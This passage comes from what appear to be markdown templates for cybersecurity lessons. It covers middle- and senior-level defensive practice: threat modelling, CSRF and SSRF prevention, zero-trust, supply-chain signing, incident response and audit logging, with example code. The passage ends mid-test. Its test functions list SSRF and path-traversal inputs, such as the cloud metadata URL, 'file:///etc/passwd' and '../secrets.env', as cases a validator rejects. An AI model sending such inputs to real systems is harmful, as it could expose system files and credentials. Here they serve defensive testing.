

## Clean Security Code
| Anti-Pattern | Better Pattern |
|-------------|----------------|
| `if not verify_token(t): pass` | `if not verify_token(t): raise AuthError("Invalid token")` |
| `user_id = request.args.get("user_id")` | `user_id = session["authenticated_user_id"]` — server side |
| `error = str(e)` in response | `error = "Request failed"` + internal log with full trace |
| `random.random()` for tokens | `secrets.token_urlsafe(32)` |
| Allow all origins in CORS | `Access-Control-Allow-Origin: https://yourapp.com` |

| Naming Convention | Purpose |
|------------------|---------|
| `*_safe()` suffix | Function has validated/sanitized inputs |
| `*_trusted()` suffix | Data from authenticated trusted source |
| `log_security_event()` | Structured security-relevant log entry |
| `_internal` suffix on error vars | Never propagate to user response |

## Product Use / Feature Context
- **Payment processing** — CSRF protection mandatory for all state-changing endpoints; IDOR on transaction IDs
- **Admin panel** — highest risk; require MFA, IP allowlisting, full audit log, separate auth session
- **File upload** — path traversal, file type validation, malware scanning, storage outside webroot
- **Public API** — rate limiting per key, input validation on all parameters, response limiting to prevent enumeration

## Secure Failure Handling (Fail Safe vs Fail Open)
```python
def authorize_action(user_id: str, resource_id: str, action: str) -> bool:
    try:
        return rbac.check(user_id, resource_id, action)
    except rbac.ServiceUnavailable:
        # Cache last known state for read operations only, deny writes on error
        if action in ("read",) and cache.has(user_id, resource_id):
            return cache.get(user_id, resource_id)
        log_security_event("authz_failure", user_id, ip="unknown",
                           success=False, details={"reason": "service_unavailable"})
        return False   # Fail safe — deny write operations on authorization service failure
    except Exception as e:
        log_security_event("authz_error", user_id, ip="unknown",
                           success=False, details={"error": str(e)})
        return False   # Fail safe — deny on any unexpected error
```

## Security Considerations
- Defense-in-depth: authentication → authorization → input validation → output encoding → audit logging
- Rate limiting must be server-side; never trust client-supplied rate limiting
- Security headers: `Content-Security-Policy`, `X-Frame-Options`, `X-Content-Type-Options`, `HSTS`
- API keys and secrets must never appear in logs, error messages, or version control

## Performance Optimization
| Control | Optimization |
|---------|-------------|
| SAST in CI | Run on changed files only (incremental scan) |
| CSRF verification | Cache HMAC computation; use timing-safe compare |
| SSRF IP check | Cache DNS resolution results (short TTL) |
| Rate limiting | Redis sliding window — O(1) per check |
| WAF | Tune rule set to reduce false positives before enabling block mode |

## Metrics
| Metric | Formula | Target |
|--------|---------|--------|
| Critical CVEs unpatched | Open critical CVEs > 7 days | 0 |
| SAST coverage | Repos with SAST in CI / total repos | 100% |
| WAF false positive rate | WAF FP / total requests | < 1% |
| Auth event log coverage | Events logged / total auth events | 100% |
| Mean time to patch (high) | Sum(patch_date - cve_date) / count | < 7 days |

## Debugging Guide
| Symptom | Likely Cause | Investigation |
|---------|-------------|---------------|
| WAF blocking legitimate traffic | Over-broad rule | Enable detection-only, identify rule ID, add exception |
| Auth bypass in test environment | TLS not enforced in test | Add `SECURE_SSL_REDIRECT = True` in all environments |
| SQL error in logs containing user input | Parameterization missed on one code path | Grep for `f"` or `%s` string formatting in SQL calls |
| Session token predictable | `random` instead of `secrets` | Replace all `random.random()` with `secrets.token_urlsafe()` |

## Best Practices
### Must Do ✅
- Apply STRIDE threat model to every new feature before writing code
- Parameterize every database query — no exceptions
- Log all security-relevant events (auth, access denied, input violations, admin actions)
- Run SAST (Semgrep/Bandit) and SCA (Dependabot/Grype) in every CI pipeline
- Set security headers: CSP, HSTS, X-Frame-Options, X-Content-Type-Options

### Never Do ❌
- Never concatenate user input into SQL, HTML, shell commands, or log entries
- Never store passwords with MD5/SHA-1; always use bcrypt/Argon2
- Never disable TLS certificate validation — not even in development
- Never return stack traces or internal error details to users
- Never fail open on any security control exception

### Production Checklist
- [ ] STRIDE threat model completed for this feature
- [ ] All DB queries parameterized (no string concatenation)
- [ ] All user-controlled output encoded in correct context (HTML/URL/JS)
- [ ] CSRF protection on all state-changing endpoints
- [ ] Rate limiting on auth and sensitive endpoints
- [ ] Security headers set (CSP, HSTS, X-Frame-Options)
- [ ] SAST + SCA passing in CI
- [ ] All security events logged to SIEM
- [ ] Secrets in environment variables / secrets manager (not in code)
- [ ] Fail-safe error handling on all security controls

## Edge Cases
- SSRF via DNS rebinding: IP check passes at request time, DNS resolves differently at socket connect time — use async-safe DNS resolution
- Second-order SQLi: user input stored in DB, later used in a different query without parameterization
- CSRF via CORS misconfiguration: wildcard origin allows malicious site to make credentialed requests
- Rate limit bypass via IP rotation through residential proxies

## Anti-Patterns
| Anti-Pattern | Risk | Fix |
|-------------|------|-----|
| Security only at the perimeter (WAF only) | Bypassed by internal threats or WAF bypass | Defense-in-depth at every layer |
| Security as a final review step | Late fixes are expensive and incomplete | Security integrated at every SDLC phase |
| Shared secrets in environment variables for all environments | Prod secret exposed in dev | Separate secret stores per environment |
| SAST as blocking gate without tuning | Developer friction from false positives | Tune rules, fix issues in batches |

## Tricky Points
- CSRF protection is unnecessary for endpoints that use Bearer token auth (not cookie-based) — but still required for cookie-based sessions
- `SameSite=Strict` breaks OAuth flows that redirect back from external IdP — use `SameSite=Lax` for OAuth, `Strict` for sensitive ops
- WAF is not a substitute for secure coding — it is a defense layer, not a fix

## Comparison Table
| Defense | Stops SQLi | Stops XSS | Stops CSRF | Stops SSRF | Operational Cost |
|---------|-----------|----------|-----------|------------|-----------------|
| Parameterized queries | ✅ | — | — | — | Very low |
| Output encoding | — | ✅ | — | — | Very low |
| CSP header | — | ✅ (limits) | — | — | Low |
| CSRF token | — | — | ✅ | — | Low |
| SSRF IP filter | — | — | — | ✅ | Low |
| WAF | Partial | Partial | Partial | Partial | Medium-high |

## Test
```python
def test_ssrf_prevention():
    assert not is_ssrf_safe("http://169.254.169.254/latest/meta-data/")
    assert not is_ssrf_safe("http://192.168.1.1/admin")
    assert not is_ssrf_safe("file:///etc/passwd")
    assert is_ssrf_safe("https://api.github.com/repos")

def test_path_traversal_prevention():
    with pytest.raises(PermissionError):
        safe_file_path("../../etc/passwd")
    with pytest.raises(PermissionError):
        safe_file_path("../secrets.env")
    assert safe_file_path("report.pdf").startswith(UPLOAD_DIR)

def test_csrf_token_roundtrip():
    session_id = "sess_abc123"
    token = generate_csrf_token(session_id, SECRET_KEY)
    assert verify_csrf_token(token, session_id, SECRET_KEY)
    assert not verify_csrf_token("tampered.token", session_id, SECRET_KEY)
```

## Tricky Questions
**Q: Why does defense-in-depth matter if the WAF blocks attacks at the perimeter?**
WAFs can be bypassed via encoding tricks, unusual HTTP constructs, or by attackers who have internal network access. Each security layer independently reduces attack surface. A parameterized query prevents SQLi regardless of whether the WAF caught the request.

**Q: When should CSRF protection not be used?**
CSRF attacks require the browser to automatically attach credentials (session cookies). If an endpoint uses Bearer token authentication (token in Authorization header, not cookie), the browser cannot automatically send it cross-origin, so CSRF protection is not required for those endpoints.

## Cheat Sheet
```text
STRIDE: Spoofing(MFA) | Tampering(HMAC) | Repudiation(SIEM) | InfoDisc(generic errs) | DoS(rate limit) | EoP(RBAC)
SDLC security gates: Design(threat model) | PR(SAST) | Deploy(SCA+DAST) | Prod(SIEM alerts)
WAF: detect-only → tune → block
Rate limit: Redis sliding window, server-side, per-user + per-IP
Security headers: CSP | HSTS | X-Frame-Options DENY | X-Content-Type-Options nosniff
```

## Summary
Middle-level cyber security covers: systematic STRIDE threat modeling applied to each component, WAF rule design with FPR tuning, structured SIEM logging for forensics and alerting, secure SDLC integration (SAST + SCA + DAST in CI/CD), CSRF and SSRF prevention patterns, and defense-in-depth as the architectural principle. No single control is sufficient — every layer must be independently effective.

## What You Can Build
- Full STRIDE threat model document for a three-tier web application
- CSRF-protected state-changing API with token generation and verification
- SSRF-safe external URL fetch with IP allowlist enforcement
- Structured SIEM logging middleware with brute force detection alert rule

## Further Reading
- OWASP Testing Guide v4.2: owasp.org/www-project-web-security-testing-guide
- PortSwigger Web Security Academy: portswigger.net/web-security
- MITRE ATT&CK for Enterprise: attack.mitre.org
- ModSecurity Reference Manual

## Related Topics
- OAuth 2.0 / OpenID Connect
- Container security and image scanning
- Network security fundamentals

## Diagrams


</details>

---

# TEMPLATE 3 — `senior.md`

<details open>
<summary><strong>Template Content</strong></summary>

# {{TOPIC_NAME}} — Senior Level

> **Ethical Disclaimer:** All content is for defensive security, authorized penetration testing, CTF competitions, and security research only.

## Table of Contents
1. [Zero-Trust Architecture](#zero-trust-architecture)
2. [Security Program Design](#security-program-design)
3. [Supply Chain Security](#supply-chain-security)
4. [Incident Response](#incident-response)
5. [Code Examples](#code-examples)
6. [Security Patterns](#security-patterns)
7. [Clean Security Code](#clean-security-code)
8. [Product Use / Feature Context](#product-use--feature-context)
9. [Secure Failure Handling (Fail Safe vs Fail Open)](#secure-failure-handling-fail-safe-vs-fail-open)
10. [Security Considerations](#security-considerations)
11. [Performance and Scaling](#performance-and-scaling)
12. [Metrics (SLO / SLA)](#metrics-slo--sla)
13. [Debugging Guide](#debugging-guide)
14. [Best Practices](#best-practices)
15. [Edge Cases](#edge-cases)
16. [Anti-Patterns](#anti-patterns)
17. [Tricky Points](#tricky-points)
18. [Comparison Table](#comparison-table)
19. [Test](#test)
20. [Tricky Questions](#tricky-questions)
21. [Cheat Sheet](#cheat-sheet)
22. [Summary](#summary)
23. [What You Can Build](#what-you-can-build)
24. [Further Reading](#further-reading)
25. [Related Topics](#related-topics)
26. [Diagrams](#diagrams)

## Zero-Trust Architecture


| Principle | Implementation |
|-----------|---------------|
| Verify explicitly | MFA on every login; device health check (MDM enrollment, patch status) |
| Least privilege | JIT access grants; role-scoped short-lived tokens (15-min TTL) |
| Assume breach | Micro-segmentation; lateral movement detection via SIEM |
| Never trust the network | mTLS between all service-to-service calls; no implicit internal trust |
| Continuous verification | Re-authentication on sensitive operations; behavioral anomaly scoring |

## Security Program Design

(NIST Cybersecurity Framework five functions.)

| Quarter | Initiative | Success Metric | Owner |
|---------|-----------|---------------|-------|
| Q1 | SAST in all CI pipelines | 100% repos scanned, 0 critical findings unblocked | AppSec |
| Q2 | SCA + CVE gate in all repos | 0 critical CVEs > 7 days unpatched | Platform |
| Q3 | Zero-trust: mTLS between all services | 100% service-to-service traffic encrypted | Infra |
| Q4 | Red team exercise + IR tabletop | MTTR P1 < 4h demonstrated | CISO |

## Supply Chain Security
```bash
# Generate SBOM
syft image my-app:latest -o spdx-json > sbom.json

# Scan SBOM for CVEs — fail build on high+
grype sbom:sbom.json --fail-on high

# Sign container image
cosign sign --key cosign.key my-registry/my-app:latest

# Verify before deployment
cosign verify --key cosign.pub my-registry/my-app:latest
```



| Supply Chain Control | Tool | Gate |
|---------------------|------|------|
| Signed commits | GPG / SSH signing | Required in branch protection |
| SAST | Semgrep, CodeQL | PR gate — block on critical |
| Secrets scanning | GitGuardian, truffleHog | PR gate — block on any secret |
| SCA | Dependabot, Grype | Deploy gate — block on critical CVE |
| SBOM | Syft | Generated per release, stored as artefact |
| Image signing | Cosign + Sigstore | Admission webhook rejects unsigned images |
| Runtime | Falco | Alert on anomalous syscalls |

## Incident Response


| IR Phase | Key Actions | SLA |
|----------|------------|-----|
| Detection | SIEM alert, triage severity | P1: < 15 min |
| Containment | Isolate, revoke credentials | P1: < 1h |
| Investigation | Log analysis, forensics | P1: < 4h |
| Eradication | Remove persistence, patch | P1: < 8h |
| Recovery | Restore service | P1: < 24h |
| Post-Incident | Report, lessons learned | < 72h |

## Code Examples
```python
# mTLS client configuration
import ssl

def create_mtls_context(cert_path: str, key_path: str, ca_path: str) -> ssl.SSLContext:
    ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
    ctx.minimum_version = ssl.TLSVersion.TLSv1_3
    ctx.load_cert_chain(cert_path, key_path)      # client certificate
    ctx.load_verify_locations(ca_path)             # CA to verify server cert
    ctx.verify_mode = ssl.CERT_REQUIRED
    ctx.check_hostname = True
    return ctx
```

```python
# Immutable audit log — append-only, hash-chained
import hashlib, json, time

class AuditLog:
    def __init__(self):
        self.entries: list[dict] = []
        self._prev_hash = "genesis"

    def append(self, event_type: str, actor: str, details: dict) -> None:
        entry = {
            "seq": len(self.entries),
            "ts": time.time(),
            "event_type": event_type,
            "actor": actor,
            "details": details,
            "prev_hash": self._prev_hash,
        }
        entry_json = json.dumps(entry, sort_keys=True)
        entry["hash"] = hashlib.sha256(entry_json.encode()).hexdigest()
        self.entries.append(entry)
        self._prev_hash = entry["hash"]

    def verify_integrity(self) -> bool:
        prev = "genesis"
        for e in self.entries:
            stored_hash = e.pop("hash")
            computed = hashlib.sha256(
                json.dumps({**e, "prev_hash": prev}, sort_keys=True).encode()
            ).hexdigest()
            e["hash"] = stored_hash
            if computed != stored_hash:
                return False
            prev = stored_hash
        return True
```

```python
# JIT access grant with automatic expiry
from dataclasses import dataclass, field
import time, uuid

@dataclass
class AccessGrant:
    grant_id: str = field(default_factory=lambda: str(uuid.uuid4()))
    user_id: str = ""
    resource: str = ""
    action: str = ""
    reason: str = ""
    granted_by: str = ""
    expires_at: float = 0.0
    created_at: float = field(default_factory=time.time)

    @classmethod
    def create(cls, user_id: str, resource: str, action: str,
               reason: str, granted_by: str, ttl_minutes: int = 60):
        return cls(
            user_id=user_id, resource=resource, action=action,
            reason=reason, granted_by=granted_by,
            expires_at=time.time() + ttl_minutes * 60,
        )

    @property
    def is_valid(self) -> bool:
        return time.time() < self.expires_at
```

## Security Patterns









## Clean Security Code
| Anti-Pattern | Better Pattern |
|-------------|----------------|
| Hardcoded secrets in env var names obvious in code | Load from secrets manager at runtime |
| Broad exception → log and continue | Broad exception → log + deny (fail safe) |
| `if user.role == "admin":` inline | Centralized RBAC check `rbac.require("admin", resource, action)` |
| Direct DB connection in business logic | Repository pattern — security controls in one place |
| Per-endpoint rate limiting copy-paste | Centralized rate limiting middleware |

## Product Use / Feature Context
- **Cloud infrastructure** — zero-trust identity federation; service accounts must be scoped to minimum permissions; no long-lived credentials
- **Fintech** — PCI DSS requires cardholder data environment isolation, annual pen test, immutable audit logs
- **Healthcare** — HIPAA requires access logging for all PHI, breach notification within 72h
- **SaaS multi-tenant** — tenant isolation must be enforced at every layer; cross-tenant IDOR is critical severity

## Secure Failure Handling (Fail Safe vs Fail Open)
```python
class SecurityGateway:
    def authorize(self, user_id: str, resource: str, action: str) -> bool:
        # Layer 1: JIT grant check
        grant = self.grant_store.get(user_id, resource, action)
        if grant and not grant.is_valid:
            self.audit.append("grant_expired", user_id, {"resource": resource})
            return False  # Expired grant — fail safe

        # Layer 2: RBAC check
        try:
            permitted = self.rbac.check(user_id, resource, action)
        except self.rbac.ServiceDown:
            # Fail safe — no RBAC service → deny
            self.audit.append("authz_service_down", user_id, {"resource": resource})
            return False

        # Layer 3: Anomaly score
        try:
            score = self.risk_engine.score(user_id)
            if score > 0.9:   # High risk — step-up auth required
                return False
        except Exception:
            pass   # Anomaly scoring is advisory only — fail open here specifically
            # (intentional: scoring engine failure should not block all access)

        if not permitted:
            self.audit.append("access_denied", user_id, {"resource": resource, "action": action})
        return permitted
```

## Security Considerations
- **mTLS everywhere** — service-to-service calls must be mutually authenticated; no implicit trust between microservices
- **Secret rotation** — API keys, DB passwords, TLS certs must have automated rotation with zero-downtime reload
- **Immutable infrastructure** — re-image instead of patching in-place; eliminates persistence mechanisms
- **Separation of duties** — no single person should have both write access and audit log access

## Performance and Scaling
| Control | Optimization |
|---------|-------------|
| mTLS handshake overhead | Session resumption (TLS session tickets) |
| RBAC check per request | Cached decision with short TTL (< 60s) |
| Audit log write latency | Async write to append-only queue; flush to immutable store |
| JIT grant store | Redis with TTL-based expiry — O(1) lookup |
| Falco runtime detection | eBPF-based driver — < 3% CPU overhead |

## Metrics (SLO / SLA)
| Metric | SLO | SLA Breach Action |
|--------|-----|------------------|
| Open critical CVEs unpatched > 3 days | 0 | Page security lead |
| MTTR P1 incident | < 4h | Exec escalation |
| mTLS coverage (service-to-service) | 100% | Deploy blocked |
| SAST coverage | 100% repos | Repo added to remediation backlog |
| MFA adoption | 100% human accounts | Account suspended |
| Patch compliance (critical OS) | > 99% within 7 days | Infra escalation |
| IR tabletop exercise | Quarterly | Compliance flag |

## Debugging Guide
| Symptom | Likely Cause | Resolution |
|---------|-------------|-----------|
| mTLS handshake failure | Expired or mismatched cert | Check cert expiry; verify CA chain; check hostname in SAN |
| SIEM missing events | Log forwarding gap | Check forwarder health; verify log volume is non-zero per source |
| JIT grant not expiring | TTL not set on Redis key | Add `EXPIRE` to grant key; verify clock sync between services |
| Supply chain scan false alarm | Transitive dependency CVE in non-affected code path | Add exception with justification; fix in next sprint |

## Best Practices
### Must Do ✅
- Enforce zero-trust: verify every request with identity + device context, never trust network location
- Implement mTLS for all service-to-service communication
- Run quarterly IR tabletop exercises; update playbooks based on findings
- Generate SBOM for every release; gate deploys on critical CVE absence
- Maintain immutable, hash-chained audit logs for all security-sensitive operations
- Achieve 100% MFA adoption for all human accounts accessing production

### Never Do ❌
- Never use long-lived credentials (rotate all API keys and DB passwords on schedule)
- Never allow implicit trust between services on the same VPC/network
- Never patch a compromised host in-place — re-image to eliminate persistence
- Never have a single person with both production write access and audit log write access
- Never deploy unsigned container images to production
- Never skip the post-incident report — lessons learned prevent recurrence

### Production Checklist
- [ ] Zero-trust policy enforced: MFA + device posture for all human access
- [ ] mTLS enabled for all service-to-service calls
- [ ] SBOM generated per release; no critical CVEs unpatched > 3 days
- [ ] Container images signed and signature verified at deployment
- [ ] Falco or equivalent runtime anomaly detection deployed
- [ ] Immutable audit log with integrity verification
- [ ] IR playbooks current and tested (last tabletop < 90 days ago)
- [ ] Secret rotation automated (TLS certs, API keys, DB passwords)
- [ ] NIST CSF Identify/Protect/Detect/Respond/Recover all addressed
- [ ] Separation of duties for production access and audit log access

## Edge Cases
- Supply chain attack via transitive dependency (attacker compromises a package 3 levels deep)
- Incident during certificate rotation — mTLS handshake fails if new cert not propagated before old expiry
- Log injection: attacker crafts input containing newlines to forge log entries — use structured JSON logging
- JIT access grant abuse: user requests grant, takes screenshot for offline use after expiry

## Anti-Patterns
| Anti-Pattern | Risk | Fix |
|-------------|------|-----|
| Annual pen test as the only security test | Year-long window of undetected vulns | Continuous SAST/DAST + quarterly red team |
| Security team as separate approvers | Bottleneck, adversarial relationship | Embed security in engineering team ("DevSecOps") |
| Perimeter firewall as zero-trust substitute | Lateral movement after perimeter breach | Micro-segmentation + mTLS between all services |
| Manual CVE triage | Scale problem as dependencies grow | Automated SCA with SBOM-diff alerting |

## Tricky Points
- Zero-trust does not eliminate the perimeter — it adds verification at every resource access inside and outside the perimeter
- mTLS only authenticates the service identity — it does not authorize the operation; RBAC is still required
- SBOM is only useful if it is accurate and kept current — stale SBOMs give false confidence

## Comparison Table
| Security Model | Trust Basis | Lateral Movement Risk | Complexity |
|---------------|------------|----------------------|------------|
| Perimeter (VPN/firewall) | Network location | High once inside | Low |
| Identity-based | User identity only | Medium | Medium |
| Zero-trust | Identity + device + behavior + least privilege | Low | High |
| Zero-trust + anomaly scoring | All of above + ML risk engine | Very low | Very high |

## Test
```python
def test_jit_grant_expiry():
    grant = AccessGrant.create("user_1", "db", "write", "test", "admin", ttl_minutes=0)
    time.sleep(0.1)
    assert not grant.is_valid

def test_audit_log_integrity():
    log = AuditLog()
